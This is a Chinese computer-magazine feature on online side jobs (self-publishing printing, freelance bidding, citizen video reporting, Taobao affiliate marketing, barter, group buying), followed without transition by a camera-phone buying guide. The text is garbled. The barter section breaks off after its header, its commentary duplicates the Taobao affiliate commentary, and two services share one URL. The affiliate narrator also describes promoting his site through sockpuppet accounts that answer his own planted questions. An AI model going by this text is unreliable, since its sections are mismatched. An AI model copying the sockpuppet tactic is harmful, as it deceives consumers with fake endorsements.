从2005年10月份至今，我从事印客这项工作已有将近六年的时间了。所印刷的内容也比较多，有文学爱好者所写的小说、散文以及诗词歌赋；有老年人所写的回忆录；也有表现恋爱、结婚等感情发展历程的内容；此外还有年轻父母拍摄的记录宝贝成长的相册、纪念册等等。由于现在很多人都有印书的需求，但是如果找正规的出版社，一来价钱昂贵，二来出版周期长，对于个人出书来说，很不划算。但是我来印书的话，则就完全不同了，一本就可以起印，所需花费最低仅仅只有30元。因此还是有不少客户来找我印书的。至于每个月的收入嘛！具体数字我就不说了，差不多能超过五位数，呵呵。

可能有的朋友会问，做印客的“钱景”真有如此之好吗？毕竟一本书的价格才30元，除去纸张、排版、印刷等费用，又能赚多少呢？做印客虽不能说日进斗金，但效益还是很可观的。因为所有的客户都会把自己“大作”和家人、朋友共享，因此绝对不会只印刷一本。而且书籍要想印刷的好，也得需要对封面、封底进行个性化的设计，如果客户不能提供设计好的样本，我们可以为之代为设计并酌情和客户收取一定的费用。

举个例子来说，在2005年我刚刚从事印客这一职业不久，有一位在深圳的打工者，就亲自找上门来，想把自己刚刚完工的12万字的长篇小说印刷成书。算上手稿打印费、排版设计以及50本的印刷费，我一共收了2300元。而那位客户想也没想就答应了，因为当时从事印客的人非常少，要不这位客户也不会亲自找上门来了。除去各项成本以外，我可以纯赚1000多元。

当然，做这项工作也是非常辛苦的，校对原稿、排版、版面设计、装订成册等所有的工作环节都不能出一点差错。而且书籍设计好并制作出PDF样本后，还得请客户看一下，然后根据客户的意见，再进行相应的修改，直到客户彻底满意为止，才能开始印刷。刚刚开始做这项工作的时候，由于没有任何的经验，有一次客户收到了邮递的书籍后，说其中5本被水浸湿了，并要求重新补印5本，否则就退款。但是为客户设计的PDF文档样本，由于印刷完毕后删除了，因此还得重新再设计。有了这次深刻的教训，以后为客户设计的所有PDF格式书籍样本，我都保存着以备不时之需。而且自己给其他客户印书时，也可以从已制作好的书籍样本中寻求设计灵感。

## 网络大补贴

- 中国印客网：http://www.inkerwang.com
- 快印客：http://1651ky.cn
- 网易印象派：http://1651ky.cn

点评：印客这一职业，对从业者的综合素质要求较高，校对、排版、设计装帧等诸多环节，绝非一人所能完成。另外，国家明确规定提供经营性排版、制版、印刷和装订服务的印客类网站，属于印刷经营活动，应事先取得《印刷经营许可证》。因此，这个行业的准入门槛还是非常高的。还有一点就是，个人印刷的书籍由于没有书号，从严格意义上说它还不是“书”，称之为“印刷品”则更准确一些。当然，这类书籍只能供自己收藏或馈赠亲友之用，而不能在市面上销售，否则就是违法行为。

不过大家如果真想从事这方面的网赚职业，建议选择一些比较专业的印客网站（如“金印客”，网址：http://www.kinker.cn/），申请做个加盟商，通过为其介绍印客业务而获得相应的提成。这样既赚到了钱，也不用被复杂的多个印书环节所累，同时自己从事该行业的门槛也相应降低了，可谓一举多得。

## 威客——用智慧创造财富

给孩子取名50元、公司Logo设计80元、Flash课件制作200元……众多充满挑战性的任务吸引了无数有一技之长的网友去竞标，而完成这些任务的人则被称作是“威客”。那么，“威客”的具体含义是什么呢？简而言之，威客就是将自己的智慧、知识、能力、经验转换成实际收益的人，亦可理解为网络上做知识买卖的人。

资深威客资料
叙述人：陈景钰
年龄：29
行业：公务员
做威客时间：4年

2007年，我“光荣”地成了一名房奴，但新买的房子还没住热乎，高额的房贷就已经压地我喘不上气来。因为每月我和老婆的薪水，扣去还房贷的钱以及柴米油盐等生活必需的开支以外，就所剩无几了。为了让家人能够过上更好的日子，我决定工作之余在网上找点兼职，希望可以赚点外快以补贴家用。但最大的问题是不知道自己应该做什么兼职好，不过由于之前我在网络、报刊中曾经对威客有所了解，知道威客网站上有太多的任务可供选择以赚取赏金。因此，我就决定到各个威客网站去碰碰运气。

通过到“猪八戒威客网”、“威客中国”等知名威客网站逛了逛，发现里边可供选择的竞标项目真的是非常多。然后我在多个威客网站都注册了账户并选择竞标翻译、Flash课件制作等类型的任务。由于我在竞标任务时开出的价格相对较低，因此几天后就中标了一个修改Flash课件的任务。这修改Flash课件是属于比较简单的活，我很快就按照雇主的要求完成了任务，也顺利地拿到了100元的赏金。

在这之后的日子里，我又陆续接到了多个任务，对威客也有了更深的了解。总的来说，在威客网站上，各种设计方面的任务占了大多数，如品牌Logo设计、店铺装修设计、建筑装修设计等等。此类任务的特点是工作周期长，竞争激烈、而且要求竞标者具备敏锐的眼光，多变的思维创意和高超的设计水平。而我在这方面并无优势，经过一番思考，我将工作周期短且更容易完成的翻译工作，定为自己竞标威客任务的首要选择。

记得印象最深的是，有一次我竞标到了一个手机菜单翻译任务，雇主要求将中文的手机菜单翻译成藏语。资料内容本身翻译的很顺利，但雇主拿到了翻译好的资料后，在手机中进行测试时却发现是乱码，根本无法正常显示藏语。经过测试，雇主发现在翻译好的手机菜单文件里边，藏语以外其他英文内容的格式被破坏了，因此手机菜单无法正常显示。最后按照雇主的要求，打开原始的手机菜单文件，将里边的中文全部替换为对应的藏语并保存，终于圆满地解决了手机菜单中藏语无法显示的问题。要知道，那些手机菜单文件中有1万多汉字并且毫无规律地夹杂在数量更多的英文里边，在大量英文中找到分散的所有汉字并将其手工替换为藏语，那工作量绝对是够大的，足足用了一天的时间才做好。不过回报也颇为可观。因为这个藏语翻译项目，雇主给出的报价是300元/千字。

## 网络大补贴

- 猪八戒：http://www.zhubajie.com
- 威客中国：http://www.vikecn.com
- 威客网：http://www.witkey.com

点评：虽然威客现在的发展势头比较好，但是也存在不少问题，因此建议大家在选择做威客时，一定要事先对其有所了解。不然的话，很有可能会辛苦半天，一分钱也拿不到。

## 1.舞弊问题

在威客网站上，由于所有威客投标者都会将自己的作品提交给任务发包方，而一旦发包方得到了自己所需要的作品之后，有不少人就会在该网站新注册一个账户，然后以新账户发布另外一个作品，“毛遂自荐”地让自己中标以获取赏金。

## 2.竞标成功率低

现在做威客的人是越来越多，同一项任务，有几百甚至上千人来竞标，这是很常见的一件事。对于每个参与竞标的威客来说，竞标的成功率实在是太低。而一旦竞标失败，自己先前为该任务所做的一切准备工作，只能算是白忙了。因此对于大多数威客而言，往往付出太多却得不到相应的回报，所以这个职业只适合兼职做，而不适合专职做。

## 拍客——新闻线索发现者

将自己周围发生的有意义的事拍下来并发到网上，和大家共同分享生活中的精彩瞬间，他们就是一群用独特视角观察和记录生活的有心人—“拍客”。“旭日阳刚”、“西单女孩”等草根明星之所以能够被发现，那绝对是拍客的功劳。当然，有些或兼职或专职的拍客，他们用手中的数码设备去抓拍和记录生活，已不仅仅是一种爱好，而成了赚钱的一种手段。

资深拍客资料
叙述人：袁浩杰
年龄：43
行业：自由职业
做拍客时间：10年

2001年7月份的一天，突然听说朋友养的鱼在一夜之间全部死掉。得知这个消息，我拿着手中的DV就直奔朋友的鱼塘而去。朋友鱼塘里的鱼已喂养了9个多月，马上就要上市销售了，现如今所有的鱼全死了，以后的生活还怎么过呢？由于近几天连降大雨，朋友怀疑是河上游的污水漫过了堤坝进入鱼塘所致，就找到了河上游唯一的一家化工厂，谁知对方却矢口否认并拒绝承担一切损失，我于是将这件事作为新闻线索报料给了当地的电视台并提供了自己所拍摄的视频，结果经过媒体的报道，问题得到了圆满的解决。因为提供了比较有价值的新闻线索，我也得到了100元的奖金。没想到既帮助别人解决了问题，还能够获取报酬，我自此就喜欢上了拍客了。多年的拍客生涯，让我明白了要想做一名成功的拍客，必须要有敏锐的新闻嗅觉，要善于发现新闻，并且及时提供给新闻媒体。以我个人的经验而言，生活中发生的让人感觉特别“喜”、“怒”、“哀”、“乐”、“奇”的事情，都是拍摄的好素材。此外，在做拍客时，尽量少拍或不拍具有曝光性质的素材，因为在拍摄此类内容时，自己的人身安全往往会受到很大的威胁，非常有可能遭到当事人的不法侵害。虽然赚钱重要，但自己的安全更重要！

## 网络大补贴:

- 新浪拍客: http://v.sina.com.cn/v/paike.html
- 酷6网: http://www.ku6.com

点评:随着价格的一路走低，数码相机，DV等数码设备也走进了寻常百姓家，因此几乎每个人都有机会成为一名拍客。虽然现在做拍客的朋友不少，但绝大多数人仅仅停留在娱乐自己和别人的阶段而已，真正能够利用自己所拍摄的作品赚钱的人往往并不多，至于以拍客为职业谋生的人就更少了。

其实，对于拍客来说，能够赚钱的渠道还是很多的，比如将自己拍摄的图片，投给报刊或杂志以换取稿费，将自己拍摄的视频或图片做为新闻线索提供给媒体以换取奖金等等。而拍客这一职业的入门，也并不困难，只须借鉴别人所拍摄的比较成功的图片和视频，多多总结经验，使自己具备抓拍生活中有新闻“看点”的人和事的能力就可以了。

## 淘宝客——织梦淘宝，专注推广

昨晚喝了不少酒，睡到第二天中午才醒来，赶紧洗把脸，打开电脑并登录一个网站，哈哈，又收入了100多，这职业可真不错……看到这里，可能有的童鞋就要扔板砖了，开什么玩笑，睡觉也能赚钱，喝酒喝高了说胡话吧！事情恰好完全相反，这不是在说胡话，更不是在说梦话，而是一个普通淘宝客的真实经历！没错，对于许多从事淘宝客的人来说，这的确是一件十分平常的事。如果一定要为之感觉奇怪的话，相信许多资深淘宝客可能会说“一天才100多元，实在有点少”。

## 资深淘宝客资料

| 叙述人 | 段俊峰 |
| --- | --- |
| 年龄 | 33 |
| 行业 | 某事业单位办公室科员 |
| 做淘宝客时间 | 2年 |

其实，为什么做淘宝客，个人感觉这是一件颇具偶然性的事。2009年7月份的一天，我在网上闲逛时，无意中发现了一个内容为“淘宝客月收入4000元—6000元”的视频教程，虽然这是一个软文性质的教程，但是让我找到了一个网赚的好机会。更重要的是，做淘宝客没有什么技术门槛，所需成本也极低，且“钱景”也很好，我就下定决心要做淘宝客了。

想做淘宝客，首先要创建一个淘宝客网站。可能大家觉得购买空间，域名并将其进行绑定，上传淘宝客程序到网站空间，对淘宝客网站进行商品的更新等事情，一定是IT方面的专业人员才能搞定。其实，事情并非如此，即使自己从来没有接触过相关领域的菜鸟，也是非常容易上手的。因为在淘宝网购买空间及域名，卖家会手把手地教会你如何将空间和域名进行绑定。而淘宝客程序的购买，同样也是如此，卖家会提供一切技术支持，我购买域名、空间及淘宝客程序，总共才花了295元钱，这就是做一年淘宝客的成本。而过了第一年之后，只须为域名和空间续费就可以了，淘宝客的运行成本将会更低，只需140元就OK了。

刚刚做淘宝客，没有任何经验，只会漫无目的四处“撒网”，用这种最常见的方式来推广自己的淘宝客网站。比如，在自己的QQ及淘宝旺旺的个性签名栏中添加淘宝客网站的个性链接信息；又比如，自己在百度知道及新浪爱问等网站中提问：“想购买卡通毛绒玩具，不知道什么地方的这类商品价格便宜且质量也很好呢？”然后自己在上述网站中注册一个马甲，并积极地回答问题“XXX网站就是一个专门销售毛绒玩具的网站，我曾经买过，质量还很不错。”最后在答案后边附上自己淘宝客网站的网址。

## 网络大补贴:

- 淘金客: http://www.taoke.com
- 淘宝联盟: http://taoke.alimama.com
- 淘客帝国: http://www.cnmysoft.com

点评:现在有太多的行业加入到了淘宝客的行列中，由于淘宝客是一个新兴的职业，因此赚钱相对来说还是比较容易的。据小编了解，即使做一个兼职的淘宝客，月收入4000元—6000元也不是最高的，有不少淘宝客的月收入甚至高达几万。但同时也应该看到，更多的淘宝客每月只能赚到可怜的几十元的佣金，甚至连续几个月都颗粒无收，这同样也是很正常的事。总的来说，淘宝客是一个讲究创意的工作，如果大家真要选择从事这个网络职业，心态一定要放正，要有长期赚不到钱的思想准备，多多吸取成功淘宝客的经验并且在赚不到钱的前提下也能坚持下去，只要大家这样做了，总有一天能获得较为丰厚的回报。

## 换客——我们换着用，你就是我的

“以物易物”，这种最古老的交易方式，曾经在原始社会盛行了相当长的一段历史时期，但谁也没想到，数千年后的今天，这种看似非常落后的交易方式又以一种时尚、新潮的姿态在许多年轻人中流行起来。这些喜欢赶时髦、追求个性的年轻人还自称为“换客”一族。

## 资深换客资料

| 叙述人 | 孙学斌 |
| --- | --- |
| 年龄 | 33 |
| 行业 | 在某私企做销售工作 |
| 做换客时间 | 6年 |

## 拼客——我们一起用，拼着更实惠

在物价日益上涨的今天，生活成本空前提高，越来越多的人几乎都有一种感觉——钱不够花。沉重的经济压力使得人们过日子更加懂得精打细算了，时下比较流行的“拼客”消费，就是其中最好的证明。那么，什么是拼客呢？这里的“拼”，不是拼命工作，更不是在超市购物疯狂的“血拼”，而是“拼凑”，是指多个或熟悉，或陌生的人为了节约成本，而共同去做某件事情。而共同做的事情，可以是拼购、拼饭、拼卡、拼房、拼车、拼游……只要是能省钱，就没什么不可以拼。

## 资深拼客资料

| 叙述人 | 何明 |
| --- | --- |
| 年龄 | 31 |
| 行业 | 外贸部门工作 |
| 做拼客时间 | 16年 |

说起做“拼客”，我应该是属于“元老”级的人物了，1995年，初中毕业的我以全县第三名的好成绩考上了本县的重点高中，这本是一件值得高兴的事情，但因为家庭条件不好，在老师、父母及亲友的劝说下，我才很不情愿地选择了读中专。中专的生活，的确是比较清贫，就吃的方面而言，仅仅是能填饱肚子而已。每天晚上在宿舍里，大家讨论最多的话题总是如何才能吃得更好，同时还不至于使得本就十分有限的生活费超支。终于有一天晚上，有位老兄提议，每顿饭不如我们合买一份菜好了，理由是：一来不用为每次买半份菜而吃食堂师傅的白眼，二来人多力量大，菜钱多了，我们也能买点好吃的打打“牙祭”。他的这个提议立刻得到大家的一致赞同。从此，我们宿舍的八位舍友就都可以享用到一些美味佳肴了。拼饭省钱的效果是非常明显的，中专三年，我吃饭花钱是非常有规律（每天6个馒头1.5元，菜钱2.0元），月生活费总额也从来没有超过150元。中专毕业之后，我选择留在了深圳一家外贸公司工作。但深圳的高消费，足以让普通的上班族感受到沉重的经济压力。因此，为了更省钱，所有能拼的消费活动，我基本上全参与了。比如，在老婆过生日时，为了给她一个惊喜，我在本地的拼客网发了帖子，寻求生日相同的朋友共同开一个生日Party。帖子发出去没多久，就得10来位网友的跟帖。这么多同一天出生的朋友聚在一起，过了一个非常独特的生日，老婆对此也感到非常开心。我所居住的小区距离单位比较远，做公交的话差不多路上得走近一个小时，刚来深圳时，人生地不熟，没办法，只能坐公交。后来上下班坐公交的时间长了，就认识了不少坐同一趟车上下班的“路友”。为了上下班能够更快一点，和几位“路友”一交流，大家一致同意“拼”一辆出租车来上下班。由于多个人长期拼车并且找的是同一位出租车司机，因此人家司机师傅给打了个七折的优惠。这样一来，大家上下班在路上所花费的时间差不多比原来少了一半。后来，一位“路友”买了私家车以后，我们其他“路友”搭顺风车就更便宜、更方便了。俗话说得好“挤公交太累，自己买车太贵，打的太不实惠，不如几个人一起‘拼’车最够味”，看来拼车的好处真的是不少呢！当然，除了拼饭、拼车省钱以外，生活中还有太多可以拼的项目能为我们节省不少的开支。比如老婆比较喜欢做美容，她每个月的工资，差不多有将近三分之一都会花在这方面。为了在美容时能更省钱，老婆拼了一张美容的会员卡并将美容卡的信息放到社区的便民论坛上，不久就得到了附近小区一位爱美女的响应，愿意合伙分享这张美容会员卡上的消费金额。按照美容院的规定，会员卡预存的钱越多，美容时能享受到的折扣就越低，并且可以两个人共同使用。所以，找一位“拼友”拼张卡，一起消费才是最划算的。

## 网络大补贴:

- 换客网: http://www.zghuan.com
- 换客中国: http://www.huanke.com
- 舍得网: http://shedewang.com

点评:现在有太多的行业加入到了淘宝客的行列中，由于淘宝客是一个新兴的职业，因此赚钱相对来说还是比较容易的。据小编了解，即使做一个兼职的淘宝客，月收入4000元—6000元也不是最高的，有不少淘宝客的月收入甚至高达几万。但同时也应该看到，更多的淘宝客每月只能赚到可怜的几十元的佣金，甚至连续几个月都颗粒无收，这同样也是很正常的事。总的来说，淘宝客是一个讲究创意的工作，如果大家真要选择从事这个网络职业，心态一定要放正，要有长期赚不到钱的思想准备，多多吸取成功淘宝客的经验并且在赚不到钱的前提下也能坚持下去，只要大家这样做了，总有一天能获得较为丰厚的回报。

做拼客的好处多多，这一点毋庸置疑。它的优点，并不仅仅体现在可以使得每个人能够得到更大的实惠，同时也扩展了拼客参与者的社交圈子，让我们可以认识更多的朋友。但是在“拼”的过程中也难免会遇到一些问题，比如，在参与拼车、拼游等活动时，如何能够安全、顺利地进行，这也是我们需要关注的。

网络大补贴：
- 中国拼客：[http://www.pinkewang.com](http://www.pinkewang.com)
- 拼客中国联盟：[http://www.pinkecn.com](http://www.pinkecn.com)

点评：某些拼友在参与拼客活动时，经常会迟到或爽约，因此导致已定好的拼客活动无法正常进行；又比如，参与拼客的各个成员之间可能会有费用分摊不均的情况发生等等。

那么，我们在参与拼客活动时，如何才能够避免出现上述问题呢？

## 1.选择熟悉的拼友

无论是参与什么拼客活动，要想拼得愉快，选择好拼友那就是非常重要的了。拼友最好是选择自己的朋友或同事，这样由于大家都比较熟悉，在参与拼客活动时，往往都能准时到达事先约定的地点，不会也不好意思迟到或爽约。

## 2.制定周密的计划

想要拼客活动能够顺利进行，就应该事先制定好周密的计划。比如，在拼车时应提前了解好驾驶员的驾驶技术是否过硬，所拼车辆性能是否良好等问题，并且做到不和陌生人一起拼车以确保自身安全。

## 3.事先签订好协议

在参与拼客活动之前，活动组织者应该提前和各成员签订一个协议，明确每个人享有的权利和需要为之承担的义务，以及对可能出现的纠纷事先制定好一个解决方案等等。

## 写在最后：

以上我们通过六个有代表性人物的自述，了解了网络中的“印客”、“拼客”、“换客”、“拍客”等六种不同类型“客”的喜怒哀乐及其发展现状。那么，大家究竟对哪一类“客”最感兴趣并想成为该“客”中的一员呢？其实，对于上述几种不同类型的“客”，它们或者能够帮助我们赚钱（如“印客”、“威客”、“淘宝客”、“拍客”），它们或者能够帮助我们省钱（如“拼客”、“换客”）；所以我们无论是做个什么类型的“客”，其目的只有一个，即利用多赚钱或多省钱为手段，让我们的生活能够过得更好。

不管是什么职业，能够做到最好的人毕竟是少数，当然网络新生活中也不例外。因此建议大家根据自己的爱好和实际情况，同时选择“客”里边的多种做为自己的兼职或专职，而且有些客还有着很强烈的互补性（比如，“试客”职业得到的某些商品自己不用了，可以通过“换客”这个职业和其他人进行交换，从而得到自己所需要的物品）。

可能我们单独做一种“客”时，做出的成绩并不出色，但多个“客”的并不出色的成绩加起来，其总和却并不差。“相声界我影视演的最好，演员界我导演的最棒，导演界我编剧编的最巧，编剧界我相声说的最逗。这年头就得玩个综合实力”，冯巩的这句经典台词，说的就是这个道理。

“有份中→法的翻译，单价110元/千字，你看看能否做？”，笔者竞标的一个“威客”任务，客户已经主动联系我了。现在最紧要的事，就是先搞定这个“威客”任务……

策划/《电脑爱好者》编辑部
监制/沧海
撰稿/新铃的窗户

# 手机也是照相机

## 照相手机如何选

在选购拍照手机的过程中，很多用户在一些概念上有着含糊不清的概念问题，或专注于某一看似重要实则并非如此的参数而忽略了很多应该注重的细节，或盲目听信商家一面之词受到误导，从而无法选购到一部称心如意的拍照手机。

## 什么是拍照手机

对于拍照手机这个名词业界并没有给出精准定义，我们可以理解为以拍照为卖点的手机都可以叫做拍照手机。但我们在选购的时候切勿仅仅依托这个含糊的概念。在参看手机摄像头各项数值的同时，我们更应该考虑所拍摄的照片画质如何。反观数码相机领域，有诸多重要参数来决定DC所拍摄照片的画质，那么如果拍照功能作为手机的卖点怎能一笔带过呢？正因此，笔者今天为大家来介绍一下购买拍照手机时应该注重的细节以及一些容易混淆的概念，希望对于打算购买选购拍照手机的朋友有所帮助。

## 像素数并不决定成像效果

现在手机动辄500万/800万像素的拍照能力十分强劲，但这样的数值充斥了手机的大半江山，难道他们所拍摄的照片画质都一样吗？提及拍照手机，相信绝大多数用户的直观印象都是配备高像素摄像头的手机，而这些配备高像素摄像头的手机也的确均主打拍照功能，这也就让很多消费者产生了“高像素等同于高画质”的惯性思维。而对于这样的一个认知，显然是有些偏差的。其实对于像素数来说，对成像效果并没有太大影响，其主要影响的是拍照样张的尺寸，更高的像素可以得到尺寸更大的照片，而尺寸和画质并没有直接的关系，所以在选购拍照手机的时候，大家并不需要过多的看重像素数。对于普通用户来说，800万像素甚至500万像素的级别就已经可以胜任了。

值得一提的是，对于像素数提高可以大幅提升成像质量的认识误区，与数码相机最初发展阶段是有较大关系的。从最初的11万像素到30万像素，再到后来的百万像素、200万像素，因为最初的分辨率尺寸不足以达到应用需要，所以像素数的提高必然增加了清晰度，这也就让用户自然有了“高像素等同于高画质”的误解。

### 小插曲：

记得笔者当年刚刚学习摄影的时候，老师曾经着重讲过，决定一幅照片画质的物理因素只有两个：一、底片；二、镜头。简单解释，底片大小决定了相片的彩印尺寸，底片优劣决定了所承载画面信息的饱满程度（收集色彩信息的能力）；而镜头的优劣只决定照片锐度和色彩的鲜艳程度。发展至今，数码相机无非是用电子感光元件（CCD/CMOS）替代了底片的传统相机，而照相的原理从未发生改变。

## 拍照手机的“底片”是什么？

市面上手机使用的主流相机传感器有两种类型，CCD和CMOS。CCD材质的感光元件成像效果要强于CMOS材质，采用CCD感光材质的摄像头是目前技术十分成熟的一种方案，其成像质量十分的出色，比之背照式CMOS画质还要好。主要表现在色彩的还原以及画面的锐度上，但在极高感光度下（ISO3200）噪点控制能力不如背照式CMOS，而CCD传感器大多需要三组电源供电，画质优秀的同时耗电量较大，对于本来电量就不多的手机来说着实是一个考验，常用在数码相机。

## CMOS的升级型——背照式 CMOS

背照式CMOS传感器最大的改变就是优化了元件内部的结构，将影像传感器上层的部分往下移动，将彩色滤光片与镜头放置于CMOS感光元件的后面，从而改善低亮度环境下的影像噪点。可以轻松完成低光照条件下图像视频拍摄功能，这也是为什么iPhone 4在低照度环境下能拍出比其他采用传统传感器的手机更锐利更清晰的照片。所以，我们在关注某一款手机摄像头到底有多少万像素的同时，也应顺便查看一下它用的是什么感光元件（SONY在自己的产品中把背照式CMOS传感器冠以Exmor R名称，实际上说的是一个东西）。

CMOS传感器只需使用一个电源，耗电量非常小，仅为CCD的1/8到1/10，CMOS在节能方面的优势对于电量本来就不足的手机来说更为适合，故目前手机使用的传感器多为CMOS。而主流拍照手机为了提高成像质量怎可能逆潮流而动重新选用CCD，于是更为先进的背照式CMOS感光元件应运而生。至于还有部分手机采用CCD做感光元件，后文会有介绍。

## 传感器尺寸亦决定成像质量

正如前文所说，感光元件的材质决定着一部手机或者相机的拍照质量，而除了材质的区别以外，感光元件的尺寸同样对成像效果起着至关重要的作用。不过大多数用户对于感光元件的尺寸问题上都没有予以足够的重视，对于这样一个“看不到摸不着”并且很多厂商也同样没有给予足够阐述的硬件来说，普通消费者自然会忽视它的价值，但其却比很多参数更为直观的影响着拍照效果。作为影响成像效果的一大因素，感光元件尺寸在众多消费者之中远没有得到应有的重视，就目前数码相机以及单反相机来说，可以说通过传感器的尺寸就基本可以判断出其所处的位置。

以发布不久的诺基亚N8来说，其出众的拍照性能就与它尺寸更大的感光元件有些紧密的关系。很多消费者都注重的是其高达1200万像素的摄像头，就不知让诺基亚N8有着出众拍照能力的并非是它的1200万像素摄像头，而是其尺寸超过很多数码相机的感光元件（N8感光元件为1/1.83英寸，一般数码相机为1/2.3英寸）。所以在选购拍照手机的时候，大家除了看传感器材质，务必要关注一下打算购买手机的感光元件尺寸，也许在众多参数都相同的情况下，感光元件尺寸的不同就可能带来天壤之别的拍照效果。

## 镜头组件还是认证的好

拍照镜头组件的质量与传感器的成像质量有很大关系。手机镜头尺寸不可能做到多大，焦距和光圈都做得很微型化，手机装载的镜头把所有能集成的都集成在一起了。事实上，手机装配的大都是最简易的定焦镜头，或者是数码变焦镜头（非光学变焦），手机跟手机之间镜头对拍照质量的影响主要可以看它是什么认证的。所以我们在选购的时候只要看清卡尔蔡司镜头、施耐德镜头等大牌认证，就应该不会有什么大问题。

## 画面要清晰 镀膜不可少

为什么镜头和镜片上需要镀膜？这是因为任何物体对光线都有反射作用，连无色透明的玻璃也不例外，差别在于光线的角度是否会形成反射效果。对于理想状态下的镜片而言，光线能够完全透过镜头，并正确的在底片或CCD上完全聚焦。然而，事实上却是，每一种镜片都受到自身物理因素的限制，导致像差的产生。所以，由众多有问题的镜片所结合而成的镜头是不可能让理论上所有各种角度的光线完全穿过。以氧化镧光学玻璃为例子（透光率相当高的一种镜头介质），其透光率可达到90%以上，剩下的10%则会反射出去，形成炫光。为了弥补这项缺失，后来的镜片研究者开发了在透镜表面镀上一层膜来增加透光效果。不镀膜的镜头，其镜片的透光率比较低，镜片表面的反光比较严重，对光谱中的各种光线都有较强的反射，因此反光的综合颜色发白，这也解释了非拍照卖点手机所拍照片为什么总能惨白一片。单层镀膜的镜头，其镜片表面的反光较弱，能大大增加光谱中部的黄绿光透过率，只有光谱两端的红光和蓝光才被反射，因此反光一般呈淡蓝紫色。而镀膜与否很少写在说明书里，我们在挑选时可以把手机拿在手中，对着光源位置让光反射出来，镜头内部有彩色光晕（多是淡紫色）的就是镀膜镜头。

## 闪光灯不只是“有”或“没有”的问题

光线对于最终照片效果有着非常大的影响，而拍照手机所配备的闪光灯也就有着较大的作用和意义。与之前介绍的几个决定成像效果因素不同的是，闪光灯在普通情况下并不决定拍照效果。不过，很多人对于拍照摄影的概括就是运用光的技巧，这一点也足以证明了光线对于一张照片的决定性作用。诸多情况下，光线效果都不会令人满意，所以机身配备的闪光灯也就自然成为了一个对实际拍照应用影响非常广泛的一个设计。但据笔者了解，很多朋友都只是关心自己要买的拍照手机“有或者没有闪光灯”这个问题，而对于闪光灯的选择上却鲜少过问。

### 小提示：
- **1 拍照按键：** 对于这一点，相信很多朋友都会有所忽略，毕竟目前绝大多数拍照手机都支持触控操作，在便捷性上显然触控操作更具优势。但通过笔者对于多款拍照手机的试用，实体按键仍然有着自己的优势，即持握和拍照瞬间稳定性上更为出色。所以在选购过程中，有所需求的朋友不妨多加注意一下。
- **2 功能设计：** 与硬件规格不同的是，很多软件方面的功能消费者都没有予以一定重视，就类似于索尼爱立信X10i具备的人脸识别、笑脸识别、图像稳定器等功能都对拍照起着很大的帮助作用，而这些对于消费者来讲，显然没有像素数关注度高。所以笔者提醒大家，如果打算购买一部拍照手机，其内置的辅助功能一定要多加关注。
- **3 光圈、焦距等：** 熟悉数码相机的朋友相信有所了解，在购买一款数码相机时，光圈、焦距都是受到高度关注的。而在这一点上面，拍照手机仍然鲜少有人过问这一方面的参数。不过，其也的的确确影响着拍照素质。
- **4 电池容量：** 相信绝大多数购买拍照手机的朋友，都很少会关注手机标配电池的容量，不过需要提醒大家的是，拍照以及拍照过程中有些时候会使用的闪光灯都可谓是耗电大户，所以对于电池容量也就决定着拍照手机的生命力，所以在选购过程中要对此有一定了解。

## 手机其他配置也很重要

而上述因素之外，影响成像效果的因素还有手机的整体配置和厂商的系统优化。有可能两款机型硬件配置和操作系统版本相同，但因为不同厂商的优化以及修改，整机所表现出的性能却很可能有着不小的差距。拍照手机也同样如此，厂商的技术也同样决定着成像效果。虽说处理器的运算速度与拍照看似没有直接关系，但是运算速度如果跟不上，在运行多任务时拍照有可能死机，连拍速度、存储速度都不会快。再有，图像处理系统的不同就是带来不同的拍照能力。甚至会对拍照速度也有着不小的影响，这也就不难理解为什么有些手机在按下快门时就可以记录下来图像了，而有些机型却在按下快门迟迟几秒之后才捕捉到图像。除此之外，图像处理系统因为不同的设计还会对捕捉到的图像进行处理而后产生相关的图片文件，而这样的处理也自然会改变色彩度等。所以选购拍照手机的时候，机型所采用图像处理系统同样非常重要。我们在选购时，可以实拍一两张，看一下手机拍照的整体感觉。

## 细节、功能同样重要

对于很多选购手机的朋友，不管是选购一部智能手机，还是侧重于某一功能较为出色的手机，都会更注重硬件配置。而如果硬件配置合格的话，很多消费者就不会再关注其他方面，其实这也是一种武断的行为。以拍照手机为例，虽然之前所说的材质、尺寸等元素的确是决定拍照质量的最大因素，但除了硬件配置，很多设计细节以及内置的功能也同样值得我们注意，其可以大幅提高用户体验甚至成像效果。

### 小提示：
反映在我们用户选购上，Android手机在拍照的系统优化不令人满意，要拍摄的照片想要得出的效果乏善可陈，但这是可以通过安装辅助软件来补正的。笔者在这里推荐Android用户下载Camera 360（手机摄影大师）这款拍照软件，它提供了近30种拍摄效果供用户选择，目前主要分为六种拍摄模式，分别是：特效模式、情景模式、趣味模式、移轴模式、移色模式和普通模式，在不同的拍摄模式下还可以通过对参数的设置达到您想要的效果，可以通过网络还可以将您的照片分享给好友。

## 视频拍摄 也应注意

作为拍照手机日常应用，我们或多或少的要使用视频的拍摄。现阶段比较常见的尺寸是720P的高清视频，1080P全高清视频由于码率的问题不可能用现阶段手机实现和高清蓝光同样的效果，但很有意思的是有很多商家把1080P全高清的拍摄做为卖点用来影射拍照能力，这两点并没什么必然联系。

## 手机显示效果越艳丽拍摄效果越好

我们买的拍照手机大多是放在手机上看（起码是第一时间），故手机屏幕的发色数就成了一些用户的争议点，不少消费者觉得手机的发色数越大，显示的效果越清晰颜色越艳丽，其实这种说法是不正确的。如今手机屏幕方面的参数不仅仅是发色数那么简单，分辨率以及屏幕材质等都是需要考虑进去的问题。此外人眼对于26万色以上级别的发色数已经很难清晰地辨别，甚至现在许多厂商将26万色手机宣称成1600万色也可以蒙骗过关。并不是拍出来的照片在手机上效果不理想就代表这个手机拍照能力差。反之，屏幕艳丽的手机容易忽悠用户拍摄效果的理想程度。

## 机型推荐

首先，笔者为大家介绍的就是诺基亚新一代旗舰机皇—诺基亚N8，其采用了全新的Symbian 3智能操作系统并且硬件规格上也对比此前的机型有了不小的提升，并且对于互联网应用也有着出众的表现。而诺基亚N8主打的拍照功能同样是一大亮点。

### 诺基亚N8
提及诺基亚N8的拍照能力（像素值达到1200万），虽然其并非首款千万像素拍照手机，但诺基亚N8的拍照能力却可以说是有质的飞跃，这一切正是源于它所配备1/1.83英寸的感光元件尺寸，这也让它的成像效果足以媲美普通的卡片相机（正好解释了上文提到的决定照片画质的因素）。除此之外，氙气闪光灯、28毫米广角等等都让诺基亚N8的实拍效果出类拔萃。而这些元素也让诺基亚N8除了一部旗舰智能机，还是目前手机市场上的拍照机皇之一。

### 三星M8910
